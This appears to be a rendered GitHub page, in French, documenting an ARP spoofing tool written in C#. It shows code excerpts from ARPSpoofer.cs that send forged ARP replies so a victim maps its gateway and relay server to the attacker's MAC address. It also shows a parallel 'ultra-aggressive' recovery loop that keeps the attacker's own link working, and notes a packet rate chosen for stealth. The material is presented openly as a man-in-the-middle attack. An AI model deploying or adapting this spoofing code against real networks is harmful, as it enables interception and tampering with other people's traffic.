 ### 🔧 **IMPLÉMENTATION TECHNIQUES CLÉS**

#### **🧠 Spoofing Intelligent (ARPSpoofer.cs:367-429)**
```csharp
// DÉMARRAGE DUAL-TASK : Spoofing + Auto-Recovery parallèles
var aggressiveRecoveryTask = Task.Run(() =>
    AggressiveConnectivityRecovery(attackerIP, gatewayIP, cancellationToken));

// 1️⃣ Dire à Target SEULEMENT que Gateway = Attaquant
SendCorrectARPReply(targetIP, _targetMac, gatewayIP, _attackerMac);

// 2️⃣ Empoisonner le relay server pour la VICTIME uniquement
SendCorrectARPReply(targetIP, _targetMac, _relayIP, _attackerMac);
```

#### **🚀 Recovery Ultra-Agressive (ARPSpoofer.cs:528-602)**
```csharp
// 🔄 6 MÉTHODES DE RECOVERY EN PARALLÈLE
while (!cancellationToken.IsCancellationRequested)
{
    RestoreAttackerConnectivity(attackerIP, gatewayIP);        // ARP requests
    Task.Run(() => MultiTargetPing(gatewayIP, relayIP));       // Ping parallèles
    Task.Run(() => ForceArpTableRestore(gatewayIP));           // Table ARP Windows
    Task.Run(() => ForceStaticRoute(gatewayIP));               // Routes statiques
    Task.Run(() => ForceDNSRefresh());                         // DNS flush
    Task.Run(() => PreventiveARPInjection(attackerIP));        // ARP préventif

    Thread.Sleep(200); // 5x par seconde - ULTRA-AGGRESSIF
}
```

#### **🔄 DNS & ARP Preventif (ARPSpoofer.cs:791-842)**
```csharp
// MÉTHODE 5: Force DNS refresh (évite cache corrompu)
ExecuteSystemCommand("ipconfig /flushdns");
_ = await System.Net.Dns.GetHostEntryAsync("google.com");

// MÉTHODE 6: Injection ARP préventive (double sécurité)
var arpReply = new ArpPacket(ArpOperation.Response, _attackerMac,
                            attackerIP, _gatewayMac, gatewayIP);
```

### 🎯 **VALIDATION COMPLETE SCENARIO ATTACK**

#### **✅ Phase 1: ARP Spoofing Intelligence**
- **Unidirectionnel** : Seule la victime pense que gateway = attaquant
- **Bidirectionnel évité** : Attaquant garde route légale vers gateway
- **Rate optimal** : 4 packets/sec (équilibre efficacité/discrétion)

#### **✅ Phase 2: Recovery Ultra-Agressive**
- **6 méthodes parallèles** : Redondance maximale connectivity
- **Fréquence 5x/sec** : Plus rapide que corruption ARP
- **Monitoring 10s** : Statistiques détaillées recovery
